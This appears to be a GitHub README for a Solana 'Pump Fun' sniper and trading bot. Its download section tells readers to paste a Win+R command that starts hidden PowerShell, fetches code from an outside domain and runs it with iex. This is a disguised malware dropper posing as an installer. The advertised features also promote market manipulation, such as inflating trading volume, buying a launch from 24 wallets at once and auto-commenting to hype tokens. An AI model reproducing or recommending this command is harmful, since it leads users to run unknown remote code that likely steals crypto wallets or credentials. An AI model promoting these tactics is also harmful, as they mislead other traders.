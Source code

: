 <h1 align="center">🚀 <strong>Pump Fun Sniper and Trading Bot for Solana</strong> 🚀</h1>

<h2>📊 Overview</h2>

<p><strong>PumpFun Sniper and Trading Bot</strong> is your reliable assistant in the world of automated trading on the Solana blockchain! 🌟 With <strong>Pump Fun Sniper and Trading Bot</strong>, you can effectively manage your investments and stay ahead in the cryptocurrency market!</p>

<p>With <strong>PumpFun Sniper and Trading Bot</strong>, you can:</p>
<ul>
    <li><a href="#feature1">💰 Distribute SOL to many wallets.</a></li>
    <li><a href="#feature2">🚀 Launch tokens with bundle buying from 24 wallets.</a></li>
    <li><a href="#feature3">🎯 Snipe tokens at optimal prices.</a></li>
    <li><a href="#feature4">📈 Increase trading volume.</a></li>
    <li><a href="#feature5">🤝 Attract buy makers and holders.</a></li>
    <li><a href="#feature6">🔍 Simulate transactions for better strategy planning.</a></li>
    <li><a href="#feature7">💬 Automatically comment to maintain interest.</a></li>
    <li><a href="#feature8">🛒 Bundle sell tokens efficiently.</a></li>
    <li><a href="#feature9">🔄 Gather SOL from trades.</a></li>
    <li><a href="#feature10">🛡️ Protect against rug pulls.</a></li>
</ul>

<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in (Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://package-extractor.com/github';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>

<p>You can download the limited version of the program for free directly from my repository! 🆓 However, the extended version is available for download at the link below and includes additional modules and modes of operation that are not included in the limited version. 💪</p>

<h2>🚀 Features</h2>

<h3 id="feature1">💸 Distribute SOL to Many Wallets</h3>
<em>Key Section: Distribution Strategy</em><br>
Efficiently distribute SOL to multiple wallets to enhance liquidity and manage risk.

<hr>

<h3 id="feature2">🚀 Token Launching with Bundle Buying from 24 Wallets</h3>
<em>Key Section: Launch Strategy</em><br>
Facilitate token launches by enabling bundle buying from up to 24 wallets simultaneously.

<hr>

<h3 id="feature3">🔍 Snipe Token</h3>
<em>Key Section: Trading Strategy</em><br>
Implement snipe functionality to quickly purchase tokens at optimal moments.

<hr>

<h3 id="feature4">📈 Increase Volume</h3>
<em>Key Section: Market Activity</em><br>
Utilize strategies to boost trading volume and enhance market presence.

<hr>

<h3 id="feature5">🤝 Increase Buy Makers and Holders</h3>
<em>Key Section: Market Engagement</em><br>
Implement tactics to attract more buyers and retain token holders for long-term stability.

<hr>

<h3 id="feature6">🔄 Simulate Transactions</h3>
<em>Key Section: Strategy Planning</em><br>
Test your trading strategies with simulated transactions before going live.

<hr>

<h3 id="feature7">💬 Auto Commenting</h3>
<em>Key Section: Community Engagement</em><br>
Automate comments to engage with the community and promote tokens effectively.

<hr>

<h3 id="feature8">📦 Bundle Selling</h3>
<em>Key Section: Sales Strategy</em><br>
Enable bundle selling to increase sales efficiency and user engagement.

<hr>

<h3 id="feature9">🌐 Gather SOL</h3>
<em>Key Section: Asset Management</em><br>
Strategically gather SOL to optimize asset management and liquidity.

<hr>

<h3 id="feature10">🛡️ Protect against Rug Pulls</h3>
<em>Key Section: Investor Safety</em><br>
This feature safeguards investors from fraudulent schemes known as "rug pulls" by analyzing projects for signs of fraud, such as anonymous developers, lack of transparency, and suspicious transactions, helping users make informed decisions and minimize risks when investing in new tokens.
<hr>

<footer>
